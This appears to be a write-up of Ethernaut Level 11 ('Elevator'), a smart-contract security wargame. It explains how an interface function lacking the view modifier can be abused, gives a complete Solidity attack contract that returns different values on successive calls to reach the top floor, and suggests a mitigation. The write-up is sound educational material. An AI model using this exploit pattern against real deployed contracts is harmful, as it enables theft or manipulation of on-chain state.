 ```yaml
---
title: Level 11 - Elevator
slug: level-11
published: 05-17-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut11.svg
---
```


## Objectives

1. Make the elevator go to the top floor. In other words, the top variable should become `true`.

## Vulnerabilities

### Interface function not using pure or view

Functions in interfaces that are not `pure` or `view` can be used to _modify state in an unintended way_. In this level,
we will make the function `isLastFloor` return different values based on some state.

## Exploit

1. Write and deploy an attack contract like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "Elevator.sol";

contract ElevatorHack is Building  {
    Elevator target;
    bool alreadyCalled;

    constructor(address _targetAddress) {
        target = Elevator(_targetAddress);
    }

    function isLastFloor(uint) override external returns(bool){
        if(alreadyCalled){
            return true;
        } else {
            alreadyCalled = true;
            return false;
        }
    }

    function attack(uint _floor) external {
        target.goTo(_floor);
    }
}
```

2. Call the `attack` function with and `uint` as argument to reach the top floor.

## Suggested mitigation

- Add the `view` modifier to the `isLastFloor` interface function.

## Further reading

- View functions <ExternalLink href={"https://docs.soliditylang.org/en/develop/contracts.html#view-functions"} />
